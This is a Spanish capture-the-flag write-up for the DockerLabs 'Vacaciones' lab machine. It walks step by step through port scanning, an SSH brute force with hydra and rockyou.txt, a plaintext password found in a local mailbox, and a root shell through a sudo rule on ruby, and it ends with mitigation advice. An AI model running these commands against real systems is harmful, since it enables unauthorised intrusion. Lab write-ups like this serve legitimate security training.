








# Vacaciones (DockerLabs)

**Plataforma:** DockerLabs

**IP objetivo:** 172.17.0.2

**Dificultad:** Easy

**Vector de ataque:** Fuerza bruta SSH → credenciales en correo local → Privesc vía sudo (ruby)

## Resumen

Enumeración web revela nombres de usuario filtrados en el código fuente. Fuerza bruta SSH contra uno de ellos obtiene acceso inicial. Tras descartar las vías estándar de escalada, un correo local sin cifrar expone la contraseña de un segundo usuario, cuyo privilegio sudo mal configurado sobre `ruby` permite escalar directamente a root.

## Reconocimiento

### Escaneo de puertos

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```



Puertos abiertos:

| Puerto | Servicio |
|---|---|
| 22 | SSH |
| 80 | HTTP |

### Enumeración web

Revisión del código fuente de la página en el puerto 80.



Comentario HTML encontrado:

```html
<!-- De: Juan Para: Camilo, te he dejado un correo es importante... -->
```

Usuarios identificados: `juan`, `camilo`.

### Escaneo de subdirectorios

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,xml,txt,py
```

Sin resultados relevantes.

## Vulnerabilidades

### Exposición de información en código fuente

El comentario HTML filtra nombres de usuario válidos del sistema, reduciendo la superficie de ataque necesaria para una fuerza bruta dirigida.

### Contraseña débil (camilo)

El usuario `camilo` tiene una contraseña presente en `rockyou.txt`, vulnerable a fuerza bruta online.

### Credenciales en texto plano (correo local)

La contraseña del usuario `juan` está almacenada sin cifrar en el buzón de correo local del sistema, accesible por `camilo`.

### Sudo mal configurado (ruby)

`juan` puede ejecutar `/usr/bin/ruby` como root sin restricciones ni contraseña — vector de escalada documentado en GTFOBins.

## Explotación

### Fuerza bruta SSH

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



Credenciales obtenidas: `camilo:password1`

### Acceso inicial

```bash
ssh camilo@172.17.0.2
```



### Tratamiento de la TTY

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios

### Enumeración como camilo

```bash
sudo -l                                    # camilo no está en sudoers
find / -perm -4000 -type f 2>/dev/null     # solo binarios SUID estándar del sistema
find / -name .bash_history 2>/dev/null     # sin resultados
find / -name config.php 2>/dev/null        # sin resultados
ls /etc/cron* 2>/dev/null                  # sin /etc/crontab ni /etc/cron.d
getcap -r / 2>/dev/null                    # sin capabilities asignadas
```

Se descartan cron, SUID/SGID, sudo directo y capabilities. Se despliega `pspy64` para monitorizar procesos en segundo plano, sin hallazgos adicionales.

### camilo → juan

Retomando la pista del código fuente, se revisa el buzón local del sistema:

```bash
cat /var/mail/camilo/correo.txt
```



Contraseña de `juan` obtenida: `2k84dicb`

```bash
su juan
```



### juan → root

```bash
sudo -l
```



`juan` puede ejecutar `/usr/bin/ruby` como root sin contraseña. Vector documentado en GTFOBins:

```bash
sudo ruby -e 'exec "/bin/sh"'
```



Shell obtenida como `root`.

## Conclusión

Cadena completa: enumeración web filtra usuarios válidos, fuerza bruta SSH compromete la cuenta de menor privilegio, y un correo local sin cifrar junto a un privilegio sudo mal configurado sobre `ruby` completan la escalada a root.

## Mitigación

- **Exposición de información:** eliminar comentarios HTML con datos sensibles del código servido en producción; incluir revisión de código fuente en el checklist de pre-deploy.
- **Contraseña débil:** forzar política de contraseñas robustas (`pam_pwquality`), implementar `fail2ban` contra fuerza bruta SSH, y migrar a autenticación por clave pública deshabilitando `PasswordAuthentication`.
- **Credenciales en texto plano:** nunca almacenar contraseñas sin cifrar en correo o notas del sistema; usar un gestor de secretos o canal cifrado de un solo uso.
- **Sudo mal configurado:** eliminar el privilegio sudo sobre intérpretes de lenguaje genéricos (`ruby`, `python`, `perl`); si es imprescindible, restringir sudo a la ruta exacta de un script concreto y auditar `sudoers` regularmente.
